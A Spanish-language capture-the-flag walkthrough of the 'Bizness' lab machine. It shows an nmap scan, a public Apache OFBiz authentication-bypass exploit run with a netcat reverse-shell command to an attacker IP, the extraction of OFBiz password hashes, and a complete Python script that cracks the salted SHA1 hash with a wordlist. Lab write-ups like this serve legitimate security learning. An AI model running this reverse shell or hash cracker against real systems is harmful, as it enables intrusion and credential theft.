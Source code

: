 Primero de todo haremos un escaneo de la ip para ver que puertos estan abiertos y que servicios tiene asociados.

`sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.252 -oN escaneo`

<img src="Pasted image 20240426090418.png">

Vemos que está corriendo una web. Entonces procediremos a realizar un fuzzing de la misma.
Al hacerlo hemos encontrado una ruta que es `/control/login` que nos redirecciona a un apache OFBiz.
<img src="Pasted image 20240426092249.png">

Vamos a intentar bypassearlo, para ello buscaremos `apache ofbiz bypass` y entraremos al primer link. (https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) y clonaremos el github.

`git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git`

<img src="Pasted image 20240426092605.png">

Ahora vamos a ejecutar el exploit. Para ello nos vamos a poner en escucha con netcat y luego ejecutaremos el exploit.

`nc -lnvp 4444`

Y en otra terminal el exploit.

`python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.38 4444'`

<img src="Pasted image 20240426093645.png">

Como podemos ver tenemos el control de la máquina. Ahora nos pondremos en la carpeta del usuario y veremos que está la flag de usuario.
<img src="Pasted image 20240426093845.png">

Para escalar privilegios nos situaremos en la carpeta /opt/ofbiz y analizaremos los archivos y directorios. Tras analizar detalladamente he encontrado un archivo con la ruta:

`/opt/ofbiz/framework/resources/templates/AdminUserLogin.xml`

Este contenia el tipo de cifrado que es sha.

`{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a`

Tocará descifrarla, pero antes en la ruta:

`/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat`

He encontrado al password.

`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`

Para poder descifrarla, he encontrado el siguiente exploit y hay que introducir nuesto hash y tipo de cifrado.
````
import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
        """
        Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.

        :param hash_type: The hash algorithm to use (default is SHA).
        :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).
        """
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):
        """
        Crypt a password using the specified hash type and salt.

        :param salt: The salt used in the encryption.
        :param value: The password value to be encrypted.
        :return: The encrypted password string.
        """
        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
        """
        Get the encrypted bytes for a password.

        :param salt: The salt used in the encryption.
        :param value: The password value to get encrypted bytes for.
        :return: The encrypted bytes as a string.
        """
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

# Example usage:
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'

# Create an instance of the PasswordEncryptor class
encryptor = PasswordEncryptor(hash_type)

# Get the number of lines in the wordlist for the loading bar
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

# Iterate through the wordlist with a loading bar and check for a matching password
with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        # Get the encrypted password
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        # Compare with the search hash
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  # Stop the loop if a match is found
````

Lo ejecutamos y nos da el password.
<img src="Pasted image 20240426100223.png">
<img src="Pasted image 20240426100347.png">
<img src="Pasted image 20240426100536.png">
